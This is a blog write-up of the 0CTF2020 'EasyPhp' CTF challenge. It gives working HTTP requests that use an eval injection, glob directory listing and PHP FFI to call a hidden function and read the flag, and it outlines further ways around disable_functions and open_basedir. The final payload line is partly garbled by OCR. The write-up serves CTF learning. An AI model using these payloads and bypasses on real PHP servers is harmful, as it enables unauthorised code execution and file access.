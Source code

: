 ```yaml
---
layout: post
author: pwnk1dd13
---
```


* * *

Recently, I got opportunity to participate in **0CTF2020 Quals**. It was really a good CTF focused on Intermediate to Advanced participants. I was only able to solve only one PHP challenge during CTF named `EasyPhp`.

## Recon >
First things first, Always Recon the chall. So, on visiting the Provided URL [http://pwnable.org:19260/](http://pwnable.org:19260/) for the challenge, We get this piece of php code

```php
<?php
    if (isset($_GET['rh'])) {
        eval($_GET['rh']);
    } else {
        show_source(__FILE__);
    }
?>
```

Now, On looking at the source code, It immediately clicked that there is some sort of Code Injection using parameter `rh`. On trying commands like ``` system, exec, popen```, We didn't get anything executed.So, we must have to get our hands on the internals.

Now, we check the settings of back-end php application, For that we have to take a look at `phpinfo();`. On Using phpinfo(); as param in var rh,
[http://pwnable.org:19260/rh=phpinfo();](https://pwnk1dd13.github.io/assets/CTF/php-0ctf2020.html)

We get to know that dangerous functions that we tried to use before were disabled, Have a look at `disabled_functions` 
```
set_time_limit,ini_set,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,putenv,error_log,d
```
Hmm! So, We need to find some other ways. Doing a bit of research and reading writeups , we get know a lot about php exploits. Let's discuss various strategies we thought to exploit it.

## Strategy >

Following exploits came up : 

> PHP-FPM
>
> Bypass open_basedir()
>
> FFI
>
> glob + DirectoryIterator  : ~~This is not the exploit~~

Now, I'll explain a bit of above and unintended solutions that came during CTF in the later section `Conclusion`, Let's first discuss how I solved this challenge.

## Exploit >

We first glob + DirectoryIterator to literally scan the whole server, After doing this, we found interesting things in `/` Directory with this `POST`request:
```
POST /?rh=%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%67%6d%6c%5d%29%3b HTTP/1.1
Host: pwnable.org:19260
User-Agent: User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US;q=0.5,en;q=0.3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

gml=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};
```

```
bin dev etc flag.h flag.so home lib media mnt opt proc root run sbin srv start.sh sys tmp usr var
```
Cool!. So ,we find our targets `flag.h` and `flag,so`. `flag.so` is Dynamically Linked Shared Object and is most probably used by `flag.h` . So, we need to figure out the function called by `flag.h` .Now, to exploit further I used the evil functionality ``FFI`` which was enabled on server as per phpinfo(). For more information about this, visit Official [Php Docs](https://www.php.net/manual/en/class.ffi.php).

Now, We use `FFI` to call the method in `flag.so`.So, use `FFI` to load `flag.h`. Let's try with this `POST` request:
```
POST /?rh=%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%67%6d%6c%5d%29%3b HTTP/1.1
Host: pwnable.org:19260
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

gml=$ffi = FFI::load("/flag.h");echo 1;
```
We don't get a 500, indicates that loading through `FFI` works and it's successfully loaded. But we don't know what method there is, what the method name is, and can't read flag.h, this is the point wher e I got stuck. 

But reading more about FFI exploits, reveal that we can leak memory to know the method name and then call it to get the `flag`. I really not noted down, from where I got the script to leak method, Shame on me. But this guy also published writeup for this same challenge and described the process of leaking memory. He has also published writeups for other challenges. So, do checkout. Link to the [Writeup](https://www.4hou.com/posts/p7BQ).Now ,we have the method to be called `flag_fUn3t1on_fFi();`.

Now,just post this request to get the flag :
```
gml=$ffi = FFI : : load( " / flag. h" ) ; : : string($ffi->f1ag_fUn3t10n_fF1()));

```
We get our flag as response :
```
HTTP/I.1 200 0K
Server: nginx
Date: Mon, 29 Jun 2020 11:01 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.5
Content-Length: 42

string(27) "flag{FFi_1s_qu1T3_DANg10uS}"
```
Hurray! We got the flag `flag{FFi_1s_qu1T3_DANg10uS}`

## Conclusion >

The intended solutions of this challenge were :

> PHP-FPM
>
> FFI

We done this through FFI, but we can also do this through `php-Fastcgi/php-fpm`. You can read more about `PHP-FPM` [here](https://www.php.net/manual/en/install.fpm.php). The way to exploit via `fast-cgi` is to first find the sock file to connect .i.e `/var/run/php-fpm.sock` using `glob+DirectoryIterator`
. Now, You can forge `fastcgi` to bypass some security policies like `open_basedir` by using `PHP_VALUE` to change global php settings like `open_basedir`. In our case, primary target is to `open-basedir` so that we can read files in root folder. For Script and more info, [Visit](https://github.com/balsn/ctf_writeup/tree/master/20190323-0ctf_tctf2019quals#wallbreaker-easy). I have added file containing all the recon data [here](https://pwnk1dd13.github.io/assets/CTF/easyphp-0ctf2020.txt).

> Unintended solutions :
As the organizers had setup this challenge in a shared php environment. So, if someone modifies `open_basedir` restriction from `/var/www/html` to `/`. Then, It gets modified for all participants and hence, anybody can directly use `file_get_contents` to get `flag.so` where the flag is in plain-text.

## Learning >
Other Exploits :
 > `LD_PRELOAD` if `putenv` is not disabled, can be used to exploit the server.
 

 > `ini_set` if not disabled, can be used to change `open_basedir` and read contents from any directory, here, root `/` directory.

 >`ImageMagick` ,a php image library if used and enabled, can also be used to bypass `open_basedir` restriction.

## Feedback >

Thanks for reading and visiting my blog. Please don't mind by bad English or grammatical errors. Please do comments if You find it interesting or something went wrong!. I read all the comments.
Thanks Again! Have a good Day!


* * * 
